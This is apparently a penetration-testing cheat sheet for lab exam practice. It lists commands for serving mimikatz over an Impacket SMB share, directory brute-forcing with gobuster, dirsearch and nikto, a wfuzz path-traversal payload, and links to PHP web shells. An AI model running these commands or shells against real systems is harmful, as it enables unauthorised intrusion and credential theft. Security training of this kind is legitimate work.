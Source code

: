 [*] Trying protocol 445/SMB...

- Impacket's SMBServer (For File Transfer)
1. cd /usr/share/windows-binaries
2. python /usr/share/doc/python-impacket/examples/smbserver.py a .
3. \\\10.10.10.10\a\mimikatz.exe

SMTP Enumeration
----------------
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/SMTP/smtp_commands.txt

ICMP Injection
----------------
1. ping -n 3 10.10.10.10
2. tcpdump -i tun0 icmp

VMware (not going full screen)
----------------
```systemctl restart open-vm-tools.service```

Web Servers:
----------------
- python -m SimpleHTTPServer 80
- python3 -m http.server 80
- ngrok http "file:///C:\Users\sinfulz\Public Folder"
- php -S 0.0.0.0:80

Web Scanning:
----------------
Web Scanning with extensions

Linux (Example web server might be Apache)
```gobuster dir -e -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt,jsp,pl -s 200,204,301,302,307,403,401```

Windows (Example web server might be IIS)

```gobuster dir -e -u http://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,js,txt,asp,aspx,jsp,bak -s 200,204,301,302,307,403,401```

Linux (Example web server might be Apache) 

```python3 dirsearch.py -r -u http://10.10.10.131/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e php,html,js,txt,jsp,pl -t 50```

Windows (Example web server might be IIS)

```python3 dirsearch.py -r -u http://10.10.10.131/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e php,html,js,txt,asp,aspx,jsp,bak -t 50```

HTTP
```gobuster dir -u http://10.10.10.10 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -t 69```

HTTPS
```gobuster dir -k -u https://10.10.10.10/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 69```
(in some cases --wildcard will need to be used instead of -k)

Nikto
```nikto -h 10.10.10.10 -p 80```

Nikto HTTPS
``nikto -h 10.10.10.10 -p 443```

WFuzz
```wfuzz -u http://10.10.10.10/hello.php?dir=../../../../../../../../../FUZZ%00 -w /usr/share/wfuzz/wordlist/general/common.txt```

Web Shells
----------------
- https://github.com/Arrexel/phpbash
- https://github.com/flozz/p0wny-shell

```